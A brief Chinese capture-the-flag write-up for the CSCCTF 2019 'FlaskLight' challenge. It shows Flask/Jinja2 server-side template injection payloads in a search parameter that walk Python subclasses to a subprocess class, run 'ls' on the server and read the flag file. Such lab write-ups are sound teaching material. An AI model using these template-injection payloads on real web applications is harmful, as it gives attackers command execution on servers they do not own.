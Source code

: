 # \[CSCCTF 2019 Qual]FlaskLight

## \[CSCCTF 2019 Qual]FlaskLight

## 考点

* Flask SSTI

## wp

![](<../../.gitbook/assets/image (14) (1) (1) (1).png>)

F12，给了提示

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png>)

题目是名字Flask，尝试一下SSTI

![](<../../.gitbook/assets/image (4) (1) (1).png>)

然后找可以利用的类

```
?search={{[].__class__.__mro__[1].__subclasses__()}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0]}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("cat flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0]}}
```

## 小结

1. 常规Flask SSTI
